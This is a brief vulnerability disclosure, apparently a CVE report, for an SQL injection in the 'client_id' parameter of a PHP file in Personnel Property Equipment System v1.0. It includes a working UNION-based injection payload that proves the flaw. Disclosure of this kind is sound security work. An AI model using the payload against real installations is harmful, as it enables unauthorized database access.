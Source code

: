 # Personnel Property Equipment System v1.0 has SQL injection

BUG_Author: LeoZhangCA

vendors: https://www.sourcecodester.com/php/11255/personel-property-equipment-system.html

Vulnerability File: /PPES/admin/returned_reuse_form.php

GET parameter "client_id" exists SQL injection vulnerability

Payload1: client_id=-1' union all select null,null,null,null,concat(0x5152535556,0x666768),null,null,null-- -&dep_id=17&item_id=27

The UNION query is successful, and the expected string "QRSVfgh" appears, which proves that there is a SQL injection vulnerability

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/sql.png)
